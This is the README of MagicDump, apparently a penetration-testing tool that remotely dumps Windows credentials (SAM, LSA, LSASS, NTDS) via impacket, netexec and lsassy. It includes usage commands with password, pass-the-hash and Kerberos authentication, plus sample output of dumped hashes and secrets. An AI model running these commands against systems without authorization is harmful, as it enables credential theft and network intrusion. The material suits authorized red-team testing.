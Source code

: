# MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
- `-t` / `--target`: Specify the target IP address of the Windows machine.
- `-u` / `--username`: Specify the username to authenticate as.
- `-p` / `--password`: Specify the password for authentication.
- `-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
- `--local-auth`: Use local authentication (optional).
- `-v` / `--verbose`: Enable verbose output for debugging (optional).
- `-h` / `--help`: Show usage info

<br>

---

<br>

## Examples

Password auth:
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

Pass-the-Hash:
```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

Local auth:
```bash
./MagicDump -t 192.168.1.120 -u administrator -p P@ssw0rd --local-auth
```

Pass-the-Ticket (Kerberos auth):
```bash
KRB5CCNAME=administrator@cifs_dc.company.com@COMPANY.COM.ccache ./MagicDump -t dc.company.com -u administrator -k --no-pass
```

Kerberos auth with password:
```bash
./MagicDump -t dc.company.com -u administrator -p 'StrongPassword123' -k
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Starting LSASS dump using lsassy...
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dump saved to ~/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt
[LSASS CREDENTIALS FOUND]:
EXAMPLE\service_user abcdefabcdefabcdefabcdefabcdefabcdef
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-05T07:28:58Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt",
      "method": "lsassy"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt",
    "Starting LSASS dump using lsassy...",
    "LSASS dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt"
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
